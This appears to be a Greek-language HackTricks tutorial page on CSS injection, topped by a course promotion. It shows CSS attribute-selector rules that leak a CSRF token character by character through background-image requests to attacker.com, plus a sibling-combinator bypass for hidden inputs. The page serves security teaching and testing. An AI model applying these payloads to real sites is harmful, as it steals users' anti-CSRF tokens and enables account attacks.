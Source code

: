 # CSS Injection

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary></details>

**Ομάδα Ασφαλείας Try Hard**

<figure><img src="https://github.com/carlospolop/hacktricks/blob/gr/pentesting-web/xs-search/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Ενσωμάτωση CSS

### Επιλογέας Χαρακτηριστικών

Οι επιλογείς CSS δημιουργούνται για να ταιριάζουν με τιμές των χαρακτηριστικών `name` και `value` ενός στοιχείου `input`. Εάν το χαρακτηριστικό τιμής του στοιχείου εισόδου ξεκινά με ένα συγκεκριμένο χαρακτήρα, φορτώνεται ένα προκαθορισμένο εξωτερικό πόρο:

```css
input[name=csrf][value^=a]{
background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
background-image: url(https://attacker.com/exfil/9);
}
```

Ωστόσο, αυτή η προσέγγιση αντιμετωπίζει μια περιορισμένη λειτουργία όταν ασχολείται με κρυμμένα στοιχεία εισόδου (`type="hidden"`) επειδή τα κρυμμένα στοιχεία δεν φορτώνουν φόντα.

#### Παράκαμψη για Κρυμμένα Στοιχεία

Για να παρακάμψετε αυτό τον περιορισμό, μπορείτε να στοχεύσετε ένα επόμενο αδελφικό στοιχείο χρησιμοποιώντας το γενικό συνδυαστή αδελφικού (`~`). Ο κανόνας CSS εφαρμόζεται στα όλα τα αδέλφια που ακολουθούν το κρυμμένο στοιχείο εισόδου, προκαλώντας τη φόρτωση της εικόνας φόντου:

```css
input[name=csrf][value^=csrF] ~ * {
background-image: url(https://attacker.com/exfil/csrF);
}
```

Ένα πρακτικό παράδειγμα εκμετάλλευσης αυτής της τεχνικής αναλύεται στο αναλυτικό κομμάτι κώδικα που παρέχεται. Μπορείτε να το δείτε [εδώ](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e).
